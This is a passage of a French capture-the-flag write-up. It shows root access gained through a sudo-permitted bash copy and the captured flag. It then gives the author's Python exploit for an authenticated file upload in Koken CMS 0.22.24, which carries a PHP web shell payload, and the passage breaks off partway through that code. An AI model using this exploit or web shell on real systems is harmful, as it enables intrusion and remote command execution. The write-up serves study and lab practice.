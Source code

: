 J'ai downloadé et uploadé bash avec le nom *defuse* et c'était bon :  

```plain
michael@doomsday:~$ sudo /home/creed/defuse -p
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt
# cat flag.txt
IDENTITY THEFT IS NOT A JOKE! Millions of families suffer every year.
But anyways. You beat me. You are the superior being.

Dwight Schrute
Assistant Regional Manager

#FLAG8: ebadbecff2429a90287e1ed98960e3f6

  _____                  _             __  __ _  __  __ _ _ 
 |  __ \                | |           |  \/  (_)/ _|/ _| (_)
 | |  | |_   _ _ __   __| | ___ _ __  | \  / |_| |_| |_| |_ _ __  
 | |  | | | | | '_ \ / _` |/ _ \ '__| | |\/| | |  _|  _| | | '_ \ 
 | |__| | |_| | | | | (_| |  __/ |    | |  | | | | | | | | | | | |
 |_____/ \__,_|_| |_|\__,_|\___|_|    |_|  |_|_|_| |_| |_|_|_| |_|

```

Bonus
-----

Comme il n'y en avait pas j'ai codé un exploit pour la faille du Koken :  

```python
import sys 
from random import choices 
from string import ascii_lowercase 
from time import time 

import requests 
from requests.exceptions import RequestException, JSONDecodeError 

# Exploit is based on https://www.exploit-db.com/exploits/48706 
print("Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)") 
print("-- https://devl00p.github.io/ 2022 --") 
if len(sys.argv) < 4: 
    print(f"Usage: python {sys.argv[0]} http://target.tld/path/to/token/ email password") 
    sys.exit() 

BACKDOOR = b'<?php system($_GET["cmd"]); ?>' 
FILENAME = "".join(choices(ascii_lowercase, k=20)) + ".php" 

path = sys.argv[1] 
email = sys.argv[2] 
password = sys.argv[3] 

sess = requests.session() 
sess.headers["User-Agent"] = "Mozilla/5.0 (X11; Linux x86_64; rv:96.0) Gecko/20100101 Firefox/96.0" 
sess.headers["X-Koken-Auth"]  = "cookie" 
sess.headers["X-Requested-With"] = "XMLHttpRequest" 
sess.headers["Origin"] = path 

try: 
    response = sess.post( 
        f"{path}/api.php?/sessions", 
        data={"email": email, "password": password}, 
```